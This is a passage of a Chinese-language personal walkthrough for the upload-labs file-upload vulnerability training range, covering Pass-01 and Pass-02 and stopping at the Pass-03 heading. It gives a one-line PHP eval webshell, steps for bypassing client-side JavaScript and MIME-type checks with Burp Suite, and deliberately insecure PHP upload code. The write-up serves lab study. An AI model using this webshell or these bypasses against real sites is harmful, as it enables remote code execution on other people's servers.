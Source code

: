 ##前言
**仅以此作为本人学习过程的记录**

Upload-labs是一个所有类型的上传漏洞的靶场，截至到现在共有21个关卡，这里总结的wp不代表是唯一wp

项目地址：[https://github.com/c0ny1/upload-labs](https://github.com/c0ny1/upload-labs)

其涉及的漏洞点包括

<img src="https://upload-images.jianshu.io/upload_images/11525934-e19630249b9b8764.png" width="80%">

这里上传的图片默认名字为`1.jpg`。上传的php默认名字为`1.php`，内容为`<?php eval($_POST["a"]);?>`

##Pass-01

通过观察可以发现点击文件上传网页和后台没有数据传输，并且可以观察到相关的js过滤语句

漏洞点为客户端--js检查

利用方式

* 通过浏览器禁止运行js，位置为浏览器--设置--高级设置--内容设置--java script

或者  

* 通过bp抓包，上传1.jpg然后在bp上将文件名改回1.php，然后放包

##Pass-02

漏洞点为服务端--检查后缀--白名单--MIME绕过

源码

	$is_upload = false;
	$msg = null;
	if (isset($_POST['submit'])) {
	    if (file_exists(UPLOAD_PATH)) {
	        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
	            $temp_file = $_FILES['upload_file']['tmp_name'];
	            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
	            if (move_uploaded_file($temp_file, $img_path)) {
	                $is_upload = true;
	            } else {
	                $msg = '上传出错！';
	            }
	        } else {
	            $msg = '文件类型不正确，请重新上传！';
	        }
	    } else {
	        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
	    }
	}

利用方式：

* 上传1.php，BP抓包后将文件的Content-Type改为image/jpeg（以上三者之一）即可

##Pass-03
